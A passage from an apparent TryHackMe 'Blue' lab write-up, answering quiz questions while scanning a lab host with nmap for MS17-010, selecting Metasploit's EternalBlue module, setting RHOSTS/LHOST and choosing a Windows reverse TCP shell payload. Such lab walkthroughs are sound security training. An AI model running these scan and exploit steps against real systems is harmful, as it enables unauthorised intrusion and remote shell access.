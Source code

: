 > 3

3. **What is this machine vulnerable to? (Answer in the form of ms??-???, ex: ms08-067)**

To find the vulnerability that the machine is affected by we can run Nmap with the option `--script vuln` to find known vulnerabilities for the services that are found on the system

```bash
sudo nmap -sS -sV -T4 --script=vuln -p 135,139,445 10.10.136.254 -vv
```

![Nmap Scan Results|550](images/thm-blue/nmap-scan-results-2.png)

We can see the SMB service on the target has a vulnerability (ms17-010)

> ms17-010

## Task 2: Gain Access

1. **Start Metasploit**

> No answer required

2. **Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/……..)**

Since we know that the vulnerability is present in SBMv1 searching for that in Metasploit should return all the vulnerabilities that are known for that version of the service.

![Metasploit SMB Modules](images/thm-blue/metasploit-smb-modules.png)

As we can see there is only one vulnerability known from that version known as **"Eternal Blue"**.

> exploit/windows/smb/ms17_010_eternalblue

3. **Show options and set the one required value. What is the name of this value? (All caps for submission)**

![Metasploit Exploit Options](images/thm-blue/metasploit-exploit-options.png)

Looking at the output we can see that the RHOSTS field is empty, we need to enter the value for that field

![Setting RHOSTS value|460](images/thm-blue/set-exploit-rhosts-value.png)

![Metasploit Exploit Options 2](images/thm-blue/metasploit-exploit-options-2.png)

**Note:** Ensure to change the LHOST value to your TryHackMe VPN IP Address. This can be found using "ip a show tun0" command and looking at the inet field

> RHOSTS

4. **Usually, it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**

```
set payload windows/x64/shell/reverse_tcp
```
